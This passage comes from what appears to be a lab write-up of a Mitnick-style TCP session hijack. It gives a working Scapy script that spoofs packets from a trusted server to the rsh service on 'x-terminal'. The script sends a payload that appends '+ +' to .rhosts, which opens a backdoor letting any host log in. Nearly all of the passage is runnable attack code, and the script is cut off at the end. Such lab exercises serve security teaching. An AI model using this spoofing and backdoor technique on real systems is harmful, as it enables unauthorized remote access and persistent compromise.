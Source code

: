```python
if __name__ == '__main__':
    main()
```

***Second connection screenshot***

![second-connection](https://github.com/iukadike/iukadike.github.io/assets/58455326/d17abf9b-4b3b-48c0-8900-09f83710c98f)

<br>

### Set Up a Backdoor
To create a backdoor, the rsh payload that is sent needs to edit the `.rhosts` to enable any IP address to connect to x-terminal. This is done by appending `+ +` to the `.rhosts` file on x-terminal.

The code from above can be modified as follows:

##### Connection that creates backdoor
```python
#!/usr/bin/env python3
from scapy.all import IP, TCP, Raw, send, sniff
from random import getrandbits

x_ip = "10.9.0.5"              # X-Terminal
x_port = 514                   # Port number used by X-Terminal

srv_ip = "10.9.0.6"            # The trusted server
srv_port = 1023                # Port number used by the trusted server

# Filter for sniffer
myFilter = 'tcp src port 514 && (not ether host 02:42:f7:8f:12:53)'

# Initialize a sequence number
seq_num = getrandbits(32)

def spoof_rply(pkt):
    global seq_num
    
    # Determine TCP length
    TCPLen = len(pkt[TCP].payload)

    # Construct payload
    myLoad = '1024\x00seed\x00seed\x00echo + + >> .rhosts\x00'
    
    # If it is a SYN+ACK packet, spoof an ACK reply and establish RSH connecction
    if pkt[TCP].flags == 'SA':
        ack_no = pkt[TCP].seq + 1
        send(IP(src = srv_ip, dst = x_ip) / TCP(sport = srv_port, dport = x_port, flags='A', seq = seq_num, ack = ack_no), verbose=0)
        print("connection established...")
        
        # Send the RSH payload
        send(IP(src = srv_ip, dst = x_ip) / TCP(sport = srv_port, dport = x_port, flags='PA', seq = seq_num, ack = ack_no) / Raw(load = myLoad), verbose=0)
        # update sequence number to next value
        seq_num += len(myLoad)
        print("RSH payload sent...")
        
    # If it is a FIN packet, close the connection
    elif 'F' in pkt[TCP].flags: 
        ack_no = pkt[TCP].seq + 1
        send(IP(src = srv_ip, dst = x_ip) / TCP(sport = srv_port, dport = x_port, flags='FA', seq = seq_num, ack = ack_no), verbose=0)    
        # update sequence number to next value        
        seq_num += 1           
```